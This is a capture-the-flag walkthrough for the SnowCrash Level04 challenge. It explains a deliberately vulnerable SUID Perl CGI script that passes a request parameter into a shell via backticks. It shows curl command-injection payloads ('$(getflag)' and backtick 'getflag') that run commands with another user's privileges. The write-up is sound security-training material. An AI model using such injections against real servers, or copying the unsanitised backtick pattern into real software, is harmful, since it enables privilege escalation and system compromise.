 # Level04
This time we are given a Perl script

![image](https://github.com/user-attachments/assets/5a276f3c-077c-4f13-b572-df191e644603)

![image](https://github.com/user-attachments/assets/afec7e89-9de1-4216-9479-25f7c7e55e12)

It has the SUID bit set like the last time. So we will try to exploit the priviliges of flag04 somehow. Let's run it,

![image](https://github.com/user-attachments/assets/085d513d-7dc6-4b2c-89ef-8574d0d3f4c1)

What is it trying to achieve exactly? Let's read the file contents:

![image](https://github.com/user-attachments/assets/c888db70-7096-4545-a2ad-dbf77416d8d4)

```
#!/usr/bin/perl
# localhost:4747
use CGI qw{param};
print "Content-type: text/html\n\n";
sub x {
  $y = $_[0];
  print `echo $y 2>&1`;
}
x(param("x"));
```
After a crash course in perl [subroutines](https://www.tutorialspoint.com/perl/perl_subroutines.htm) and the [CGI](https://www.perl.com/article/perl-and-cgi/) module we see that we are provided with a neatly vulnerable code.

First let's discuss some syntax. The [**qw**](https://www.geeksforgeeks.org/perl-qw-operator/)(quote-word) operator in Perl is used to extract each element of the given string as it is in an array of elements in single-quote. For example: _qw(Hello world) becomes ('Hello', 'world')_

In our case it is used to import a list of functions from the CGI module. This list consists of only one element though...Anyways the function we imported is `param` and we will come back to it later

In Perl we can pass various arguments to a subroutine like you do in any other programming language and they can be acessed inside the function using the special array @_. Thus the first argument to the function is in $_[0], the second is in $_[1], and so on.

In our script we have a subroutine called `x`. Within x a variable called `y` is defined. y takes the value of the first argument passed to x, as indicated by `$y = $_[0]` . Then it prints the value of y with echo.

Rest of the stuff requires us to understand the CGI module. 

CGI stands for [Common Gateway Interface](https://datatracker.ietf.org/doc/html/rfc3875), it’s a protocol for executing scripts via web requests, and in the late 1990’s was the main way to write dynamic programs for the Web. It’s also the name of the Perl module that is now deprecated.

The first way to pass data is with the query string, (the portion of a URI beginning with ?), which you see in URLs like `https://example.com/?foo=bar`. This uses the “GET” request method, and becomes available to the program as $ENV->{QUERY_STRING}, which in this case is foo=bar (CGI programs receive their arguments as environment variables). But CGI provides the `param` method which parses the query string into key value pairs, so you can work with them like a hash.

Essentialy we have a script that is able to handle [HTTP requests](https://developer.mozilla.org/en-US/docs/Web/HTTP/Methods). Subroutine x is called with the argument `param("x")`, here the `param()` function retrieves the value of parameter x from the HTTP request. And then this value is printed.

Easy enough right? We can start interacting with the script in a meaningful way now. Let's give the server some input to work with.

`level04@SnowCrash:~$ curl http://localhost:4747?x=hello`

![image](https://github.com/user-attachments/assets/58986977-11e9-4d9c-b7c5-f2a7a0597748)

If proper input sanitization is not made this script could be vulnerable to command injections. Since it runs with the priviliges of `flag04` the consequences could be severe. Let's exploit!

Our goal is to run `getflag` as `flag04` somehow. A naive first attempt would be to simply try `level04@SnowCrash:~$ curl http://localhost:4747?x=getflag`

![image](https://github.com/user-attachments/assets/1cb59aef-72ea-4ac6-ad08-f7d02426af4f)

This is the same as running `echo getflag`, it doesn't run `getflag` but simply prints it out as any other string. How do we subsitute commands in shell-scripting? By using **$()** or **backticks**!

![image](https://github.com/user-attachments/assets/ae0eac71-be2a-4d01-b18e-500eac4988ce)

This didn't exactly go as intended because `getflag` was executed as level04 before curl and the resulting string was put as parameters in the URL.

However if I use single quotes everything inside will be taken as literally and no command substitution will happen (at least as far as curl is conerned): `curl 'http://localhost:4747?x=$(getflag)'`

![image](https://github.com/user-attachments/assets/f314e30b-c37a-4d4c-af35-940a683f8e3e)

Yay! But how did this work if single quotes interpert the strings literally? Well that's the vulnerable script's fault. 

```
print `echo $y 2>&1`;
````

becomes,

```
print `echo $(getflag) 2>&1` ;
```

And now getflag will run with the privileges of the user under which the Perl CGI script is executed. Then echo will print out the result.

**Alternatively** we can make use of backticks too:

```
level04@SnowCrash:~$ curl 'http://localhost:4747/level04.pl?x=`getflag`'
```

![image](https://github.com/user-attachments/assets/390db6a7-889b-4a9b-99f1-7a325288c15b)

![image](https://github.com/user-attachments/assets/f252564f-cfb3-4278-976d-06e83465f6b9)

_Fin_
